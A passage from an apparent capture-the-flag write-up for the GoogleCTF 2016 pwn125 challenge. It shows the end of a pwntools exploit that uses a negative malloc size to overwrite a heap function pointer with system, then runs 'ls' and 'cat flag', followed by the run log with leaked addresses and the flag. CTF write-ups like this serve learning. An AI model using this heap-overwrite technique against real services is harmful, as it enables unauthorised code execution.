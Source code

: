 r.sendline('3')
r.recv(timeout=1)
r.sendline(str(-0x860))			# Negative malloc to wrap around and reach
r.recv(timeout=1)			# the beginning of the heap so we can overwrite
r.sendline('2')				# the helper_ptr with system
r.recv(timeout=1)
r.sendline(p64(system))
r.recv(timeout=1)

r.sendline('1')				# cause a call to helper_ptr
r.recv(timeout=1)
r.sendline('1')
r.recv(timeout=1)

r.sendline('ls')
print r.recv(timeout=1)
r.sendline('cat flag')
print r.recv(timeout=1)


#r.interactive()			# <-- broken because of SSL :(
{% endhighlight %}

And the flag

{% highlight text %}
➜  ~ python ctfs/GoogleCTF2016/pwn125/exploit.py
[+] Opening connection to ssl-added-and-removed-here.ctfcompetition.com on port 11111: Done
[*] Leak: 0x5590e5f950
[*] Helper ptr: 0x55829edf54
[*] Strtol@GOT: 0x7f8ba286e8
[*] System: 0x7f8ba30fd0
app
bin
flag
lib
lib64
sbin

CTF{somebody.has.written.gullible.on.the.ceiling.above.you}

[*] Closed connection to ssl-added-and-removed-here.ctfcompetition.com port 11111
{% endhighlight %}